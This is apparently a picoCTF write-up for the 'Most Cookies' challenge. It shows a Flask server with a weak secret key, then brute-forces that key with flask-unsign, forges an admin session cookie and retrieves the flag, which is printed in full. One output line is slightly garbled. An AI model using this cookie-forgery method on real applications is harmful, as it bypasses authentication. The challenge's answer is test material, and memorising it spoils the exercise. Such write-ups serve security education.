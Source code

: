 ### most cookies

Alright, enough of using my own encryption. Flask session cookies should be plenty secure!

we are given server.py

```py
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()

```

we can decode the session part of the cookie, 

`base64.urlsafe_b64decode('eyJ2ZXJ5X2F1dGgiOiJpY2Vib3gifQ===')`  giving `b'{"very_auth":"icebox"}'`

now set a payload and encode it `base64.urlsafe_b64encode(b'{"very_auth":"admin"}')` gives `b'eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9'`

ahh... turns out I forgot about the checksum

well we have a list of possible secret keys, so we can just brute-force it

make a wordlist from the cookie names and then

```sh
flask-unsign --unsign --server http://mercury.picoctf.net:44693 --wordlist cookies.txt --no-literal-eval
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YFEcxQ.gM07uVLeylxxLqdwD2z57hcn4Fw
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
b'spritz'
```

no we can bake our own cookie

```
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret spritz                                   
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YFEc9Q.CYPtnDd-rnYvl3cks_kXZFt7-yY
```

and request to get the flag

```py
#! /usr/bin/env python3

import requests

r= requests.get(
    "http://mercury.picoctf.net:44693/display", 
    cookies= {"PHPSESSID": "j51jtluj8o6vr0c07njqt4umht",  "session": "eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YFEc9Q.CYPtnDd-rnYvl3cks_kXZFt7-yY"}
)

print(r.text)
```

running solve.py...

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Most Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Reset</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Most Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_dbfe90bf}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```


picoCTF{pwn_4ll_th3_cook1E5_dbfe90bf}